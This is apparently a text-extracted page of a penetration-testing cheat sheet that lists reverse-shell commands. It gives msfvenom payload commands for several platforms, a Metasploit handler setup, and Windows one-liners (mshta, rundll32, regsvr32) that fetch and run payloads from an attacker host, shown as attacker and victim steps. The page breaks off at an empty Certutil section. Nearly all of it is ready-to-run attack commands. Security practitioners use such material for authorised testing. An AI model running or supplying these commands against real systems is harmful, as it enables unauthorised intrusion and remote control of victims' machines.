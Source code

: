 msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
#### Shellcode
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
#### Handlers
```bash
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```
### Get Reverse-shell via Windows one-liner
#### Mshta.exe
Attacker:
```bash
use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set srvhost 192.168.1.109
msf exploit(windows/misc/hta_server) > set lhost 192.168.1.109
msf exploit(windows/misc/hta_server) > exploit
```
Victim:
```bash
mshta.exe http://192.168.1.109:8080/5EEiDSd70ET0k.hta
```
#### Rundll32.exe
Attacker
```bash
use  exploit/windows/smb/smb_delivery
msf exploit(windows/smb/smb_delivery)  >  set srvhost  192.168.1.109
msf exploit(windows/smb/smb_delivery)  >  exploit
```
Victim:
```bash
rundll32.exe  \\192.168.1.109\vabFG\test.dll,0
```
#### Regsvr32.exe
Attacker:
```bash
use  exploit/multi/script/web_delivery
msf exploit (web_delivery)>set target  3
msf exploit (web_delivery)> set payload windows/meterpreter/reverse_tcp
msf exploit (web_delivery)> set lhost  192.168.1.109
msf exploit (web_delivery)>set srvhost  192.168.1.109
msf exploit (web_delivery)>exploit
```
Victim:
```bash
regsvr32  /s  /n  /u  /i:http://192.168.1.109:8080/xo31Jt5dIF.sct scrobj.dll
```
#### Certutil.exe
Attacker:
```bash
```
